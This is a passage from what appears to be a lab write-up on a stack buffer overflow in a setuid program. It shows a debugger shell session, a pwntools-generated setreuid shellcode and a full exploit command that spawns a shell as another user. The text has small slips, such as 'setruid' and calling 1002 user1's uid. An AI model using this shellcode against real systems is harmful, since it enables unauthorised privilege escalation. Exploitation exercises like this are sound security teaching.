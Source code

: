 ```sh
user1
sh-4.2$ ll
Detaching after fork from child process 3478.
sh: ll: command not found
sh-4.2$ ls -l
Detaching after fork from child process 3479.
total 20
-rwsrwxr-x 1 user2 user2 8264 Sep  2  2019 buffer-overflow
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
sh-4.2$ cat secret.txt 
Detaching after fork from child process 3480.
cat: secret.txt: Permission denied
sh-4.2$ exit
[Inferior 1 (process 3468) exited with code 01]
```

still no `user2` permission, so we need to adjust our shellcode using `setuid(1002)` (which is user1's uid from `/etc/passwd`), when the shellcode pops, we want `setuid` at the top to make use `user2`.

:::note

look up & understand the difference between (real) UID and effective UID and how the shell treats things, except of course if you're trying to setuid(0) i.e. root, in which case you can only get your effective UID set. Because of this, what we need to basically `su` to user2 is `setruid()`

:::

### pwntools setreuid shellcode

install pwntools:

```sh
apt update -y
apt install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools --user
```

and then create shellcode with setreuid:

```sh
pwn shellcraft -f d amd64.linux.setreuid 1002       
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

add this to the existing `/bin/sh` shellcode that was dropping us in before:

```sh
run $(python -c "print '\x90'*100 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
```

the payload is now 212 bytes, but we need to keep it at 158 bytes total (i.e. 152 offset + 6 return address).
